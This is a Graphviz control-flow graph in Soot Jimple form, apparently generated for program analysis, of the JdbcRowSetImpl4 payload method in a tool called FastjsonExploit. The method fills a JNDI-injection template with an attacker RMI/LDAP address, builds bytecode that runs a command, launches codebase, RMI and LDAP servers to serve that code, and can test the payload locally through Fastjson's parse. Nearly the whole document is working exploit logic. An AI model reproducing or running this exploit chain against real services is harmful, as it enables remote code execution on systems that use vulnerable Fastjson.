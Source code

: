 digraph "unitGraph" {
    "r25 := @this: payloads.JdbcRowSetImpl4"
    "r0 := @parameter0: java.lang.String[]"
    "$i0 = lengthof r0"
    "if $i0 == 3 goto $r1 = r0[1]"
    "$i4 = lengthof r0"
    "if $i4 == 4 goto $r1 = r0[1]"
    "$r22 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r22.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl4 [rmi/ldap address] [\\\"cmd:xxx|code:xxx.java\\\"]\")"
    "return"
    "$r1 = r0[1]"
    "r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"
    "$r3 = r0[2]"
    "r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>()"
    "$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2)"
    "if $z0 != 0 goto $r5 = new util.JarFileReader"
    "staticinvoke <util.Alert: void printValidAddress()>()"
    "$r5 = new util.JarFileReader"
    "specialinvoke $r5.<util.JarFileReader: void <init>()>()"
    "r6 = $r5"
    "r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\")"
    "r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2)"
    "$r7 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")"
    "$r8 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\")"
    "$r9 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27)"
    "$r10 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\")"
    "$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4)"
    "<util.Common: byte[] byteCode> = $r11"
    "$r12 = new util.AddressParser"
    "specialinvoke $r12.<util.AddressParser: void <init>()>()"
    "r13 = $r12"
    "virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2)"
    "r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>()"
    "$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>()"
    "r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1)"
    "i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\")"
    "staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2)"
    "$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"
    "$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\")"
    "if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"
    "$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"
    "staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21)"
    "goto [?= (branch)]"
    "$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"
    "$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\")"
    "if $z2 == 0 goto (branch)"
    "$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"
    "staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20)"
    "goto [?= $i3 = lengthof r0]"
    "$r23 := @caughtexception"
    "r29 = $r23"
    "virtualinvoke r29.<java.lang.Exception: void printStackTrace()>()"
    "$r24 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\")"
    "staticinvoke <java.lang.System: void exit(int)>(0)"
    "$i3 = lengthof r0"
    "if $i3 != 4 goto return"
    "$r17 = r0[3]"
    "$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"
    "if $z3 == 0 goto return"
    "$r18 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"
    "staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27)"
    "r25 := @this: payloads.JdbcRowSetImpl4"->"r0 := @parameter0: java.lang.String[]";
    "r0 := @parameter0: java.lang.String[]"->"$i0 = lengthof r0";
    "$i0 = lengthof r0"->"if $i0 == 3 goto $r1 = r0[1]";
    "if $i0 == 3 goto $r1 = r0[1]"->"$i4 = lengthof r0";
    "if $i0 == 3 goto $r1 = r0[1]"->"$r1 = r0[1]";
    "$i4 = lengthof r0"->"if $i4 == 4 goto $r1 = r0[1]";
    "if $i4 == 4 goto $r1 = r0[1]"->"$r22 = <java.lang.System: java.io.PrintStream out>";
    "if $i4 == 4 goto $r1 = r0[1]"->"$r1 = r0[1]";
    "$r22 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r22.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl4 [rmi/ldap address] [\\\"cmd:xxx|code:xxx.java\\\"]\")";
    "virtualinvoke $r22.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usage: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl4 [rmi/ldap address] [\\\"cmd:xxx|code:xxx.java\\\"]\")"->"return";
    "$r1 = r0[1]"->"r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()";
    "r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"->"$r3 = r0[2]";
    "$r3 = r0[2]"->"r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>()";
    "r4 = virtualinvoke $r3.<java.lang.String: java.lang.String trim()>()"->"$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2)";
    "$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2)"->"if $z0 != 0 goto $r5 = new util.JarFileReader";
    "if $z0 != 0 goto $r5 = new util.JarFileReader"->"staticinvoke <util.Alert: void printValidAddress()>()";
    "if $z0 != 0 goto $r5 = new util.JarFileReader"->"$r5 = new util.JarFileReader";
    "staticinvoke <util.Alert: void printValidAddress()>()"->"return";
    "$r5 = new util.JarFileReader"->"specialinvoke $r5.<util.JarFileReader: void <init>()>()";
    "specialinvoke $r5.<util.JarFileReader: void <init>()>()"->"r6 = $r5";
    "r6 = $r5"->"r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\")";
    "r26 = virtualinvoke r6.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\")"->"r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2)";
    "r27 = virtualinvoke r26.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2)"->"$r7 = <java.lang.System: java.io.PrintStream out>";
    "$r7 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")";
    "virtualinvoke $r7.<java.io.PrintStream: void println(java.lang.String)>(\"[*] payload build success!\")"->"$r8 = <java.lang.System: java.io.PrintStream out>";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\")";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"\")"->"$r9 = <java.lang.System: java.io.PrintStream out>";
    "$r9 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27)";
    "virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(r27)"->"$r10 = <java.lang.System: java.io.PrintStream out>";
    "$r10 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\")";
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"\")"->"$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4)";
    "$r11 = staticinvoke <gadget.Gadget: byte[] getJdbcRowSetImplExpCode(java.lang.String)>(r4)"->"<util.Common: byte[] byteCode> = $r11";
    "<util.Common: byte[] byteCode> = $r11"->"$r12 = new util.AddressParser";
    "$r12 = new util.AddressParser"->"specialinvoke $r12.<util.AddressParser: void <init>()>()";
    "specialinvoke $r12.<util.AddressParser: void <init>()>()"->"r13 = $r12";
    "r13 = $r12"->"virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2)";
    "virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2)"->"r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>()";
    "virtualinvoke r13.<util.AddressParser: void parser(java.lang.String)>(r2)"->"$r23 := @caughtexception";
    "r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>()"->"$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>()";
    "r28 = virtualinvoke r13.<util.AddressParser: java.lang.String getHost()>()"->"$r23 := @caughtexception";
    "$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>()"->"r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1)";
    "$i1 = virtualinvoke r13.<util.AddressParser: int getPort()>()"->"$r23 := @caughtexception";
    "r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1)"->"i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\")";
    "r14 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>($i1)"->"$r23 := @caughtexception";
    "i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\")"->"staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2)";
    "i2 = staticinvoke <util.Util: int getUnusePort(java.lang.String)>(\"127.0.0.1\")"->"$r23 := @caughtexception";
    "staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2)"->"$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()";
    "staticinvoke <server.CodebaseServer: void lanuchCodebaseURLServer(java.lang.String,int)>(r28, i2)"->"$r23 := @caughtexception";
    "$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\")";
    "$r15 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$r23 := @caughtexception";
    "$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\")"->"if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()";
    "$z1 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"rmi\")"->"$r23 := @caughtexception";
    "if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)";
    "if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()";
    "if $z1 == 0 goto $r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$r23 := @caughtexception";
    "$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"->"staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21)";
    "$r21 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"->"$r23 := @caughtexception";
    "staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21)"->"goto [?= (branch)]";
    "staticinvoke <server.RMIServer: void lanuchRMIregister(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r21)"->"$r23 := @caughtexception";
    "goto [?= (branch)]"->"goto [?= $i3 = lengthof r0]";
    "goto [?= (branch)]"->"$r23 := @caughtexception";
    "$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\")";
    "$r16 = virtualinvoke r13.<util.AddressParser: java.lang.String getProtocol()>()"->"$r23 := @caughtexception";
    "$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\")"->"if $z2 == 0 goto (branch)";
    "$z2 = virtualinvoke $r16.<java.lang.String: boolean equals(java.lang.Object)>(\"ldap\")"->"$r23 := @caughtexception";
    "if $z2 == 0 goto (branch)"->"$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)";
    "if $z2 == 0 goto (branch)"->"goto [?= $i3 = lengthof r0]";
    "if $z2 == 0 goto (branch)"->"$r23 := @caughtexception";
    "$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"->"staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20)";
    "$r20 = staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>(i2)"->"$r23 := @caughtexception";
    "staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20)"->"goto [?= $i3 = lengthof r0]";
    "staticinvoke <server.LDAPServer: void lanuchLDAPServer(java.lang.Integer,java.lang.String,java.lang.Integer)>(r14, r28, $r20)"->"$r23 := @caughtexception";
    "goto [?= $i3 = lengthof r0]"->"$i3 = lengthof r0";
    "$r23 := @caughtexception"->"r29 = $r23";
    "r29 = $r23"->"virtualinvoke r29.<java.lang.Exception: void printStackTrace()>()";
    "virtualinvoke r29.<java.lang.Exception: void printStackTrace()>()"->"$r24 = <java.lang.System: java.io.PrintStream out>";
    "$r24 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\")";
    "virtualinvoke $r24.<java.io.PrintStream: void println(java.lang.String)>(\"FastjsonExploit exit!\")"->"staticinvoke <java.lang.System: void exit(int)>(0)";
    "staticinvoke <java.lang.System: void exit(int)>(0)"->"$i3 = lengthof r0";
    "$i3 = lengthof r0"->"if $i3 != 4 goto return";
    "if $i3 != 4 goto return"->"$r17 = r0[3]";
    "if $i3 != 4 goto return"->"return";
    "$r17 = r0[3]"->"$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")";
    "$z3 = virtualinvoke $r17.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"->"if $z3 == 0 goto return";
    "if $z3 == 0 goto return"->"$r18 = <java.lang.System: java.io.PrintStream out>";
    "if $z3 == 0 goto return"->"return";
    "$r18 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")";
    "virtualinvoke $r18.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"->"staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27)";
    "staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r27)"->"return";
}
